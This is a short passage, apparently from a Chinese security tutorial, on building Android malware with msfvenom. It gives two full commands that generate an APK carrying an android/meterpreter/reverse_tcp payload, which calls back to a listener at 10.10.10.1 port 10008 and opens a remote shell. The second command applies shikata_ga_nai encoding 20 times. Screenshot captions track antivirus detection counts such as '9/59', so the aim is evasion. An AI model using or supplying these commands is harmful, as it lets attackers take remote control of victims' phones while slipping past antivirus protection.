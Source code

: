 虽然这个是x86的，但是也能兼容在APK中，编码一次

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai R > black_1.apk
```

[![](assets/1701606948-7f776da58a3adee3b52320ebac418628.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102118-87dbbdc0-664a-1.png)  
  
现在是 9/59  
  
[![](assets/1701606948-281ebb43a9bd72b6543a0b998fdc780c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231009102128-8d7e55b2-664a-1.png)  
  
编码20次

```plain
msfvenom --platform Android -p android/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=10008 -e x86/shikata_ga_nai -i 20 R > black_2.apk
```
